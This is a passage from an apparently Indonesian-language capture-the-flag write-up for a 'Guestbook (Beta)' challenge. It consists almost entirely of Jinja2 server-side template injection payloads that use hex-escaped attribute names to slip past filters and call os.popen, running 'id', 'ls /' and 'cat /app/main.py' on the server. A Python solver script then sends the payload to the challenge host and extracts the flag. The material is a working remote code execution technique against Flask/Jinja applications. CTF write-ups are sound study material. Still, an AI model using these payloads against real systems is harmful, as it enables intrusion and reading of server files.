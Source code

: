 ```bash {title="id"}
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

<br/>

<br>
<div style="text-align:center">
<img src="https://raw.githubusercontent.com/nopedawn/CTF/main/0ByteCTF23/Guestbook-(Beta)/img/7.png">
</div>
<br>

```bash {title="ls /"}
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls /')|attr('read')()}}
```

<br/>

Dapat dibuktikan bahwa payload tersebut telah berhasil dieksekusi, oleh karena itu tinggal cari flag dan baca isi file saja.

<br>
<div style="text-align:center">
<img src="https://raw.githubusercontent.com/nopedawn/CTF/main/0ByteCTF23/Guestbook-(Beta)/img/8.png">
</div>
<br>

```bash {title="cat /app/main.py"}
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat /app/main.py')|attr('read')()}}
```

<br/>

Penyelesaian dengan Solver

```python {title="solver.py" lineNos=true lineNoStart=1}
import requests
import re

url = "http://0x7e7ctf.zerobyte.me:40009"
endpoint = "/?name="
payload = "{{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fbuiltins\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fimport\x5f\x5f%27)(%27os%27)|attr(%27popen%27)(%27cat%20/app/main.py%27)|attr(%27read%27)()}}"

response = requests.get(url + endpoint + payload)

flag = re.findall(r'0byteCTF\{[A-Za-z0-9_]+\}', response.text)
print(flag)
```
